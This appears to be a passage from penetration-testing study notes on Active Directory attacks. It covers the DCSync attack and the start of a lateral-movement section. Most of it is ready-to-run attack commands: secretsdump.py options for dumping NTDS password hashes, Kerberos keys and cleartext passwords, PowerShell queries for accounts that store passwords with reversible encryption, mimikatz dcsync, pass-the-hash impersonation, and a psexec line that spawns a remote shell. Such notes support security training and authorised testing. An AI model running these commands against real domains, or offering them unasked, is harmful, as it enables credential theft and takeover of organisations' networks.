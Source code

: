 With certain rights over the user (for example **WriteDacl**) we can even add this privilege. 

To extract all the hashes we can use **secretsdump.py**:
```console
zero@pio$ secretsdump.py -outputfile <OUTPUT FILE> -just-dc <DOMAIN>/<USER>@<DOMAIN CONTROLLER IP>
```

| **Flag**   | **Description**    |
|--------------- | --------------- |
| `-just-dc` | generate three files, NTLM hashes, Kerberos keys and cleartext passwords from NTDS with reversible encryption enabled |
| `-just-dc-ntlm` | only NTLM hashes |
| `-just-dc-user <USER>` | specific user |
| `-pwd-last-set` | see when each account's password was changed |
| `-history` | dump password history |
| `-user-status` | check and see if a user is disabled |

We can enumerate all the users with this reversible encryption:
```console
PS C:\zeropio> Get-ADUser -Filter 'userAccountControl -band 128' -Properties userAccountControl
```

Or:
```console
PS C:\zeropio> Get-DomainUser -Identity * | ? {$_.useraccountcontrol -like '*ENCRYPTED_TEXT_PWD_ALLOWED*'}
```

This attack can be done with mimikatz as well:
```console
PS C:\zeropio> .\mimikatz.exe

mimikatz # lsadump::dcsync /domain:<DOMAIN>.LOCAL /user:<DOMAIN>\administrator
```

If we want to impersonate before doing it:
```console
mimikatz # sekurlsa::pth /user:<USER> /ntlm:<NTLM HASH> /domain:<DOMAIN>.local /impersonate
```

We can also execute commands through mimikatz to spawn a cmd (we need to be connect to RDP) with the Psexec.exe util in the same folder:
```console
mimikatz # sekurlsa::pth /user:administrator /ntlm:<NTLM HASH> /domain:<DOMAIN>.local /run:".\psexec.exe /accepteula \\<COMPUTER NAME>.<DOMAIN>.local -h cmd.exe" 
```



---

# Lateral And Vertical Movement

With foothold on the domain, now we need to move further vertically or laterally. If we don't have access to the admin we can try the following:
- **Remote Desktop Protocol** (**RDP**)
- [Powershell Remoting](https://docs.microsoft.com/en-us/powershell/scripting/learn/ps101/08-powershell-remoting?view=powershell-7.2)
- **MSSQL Server**
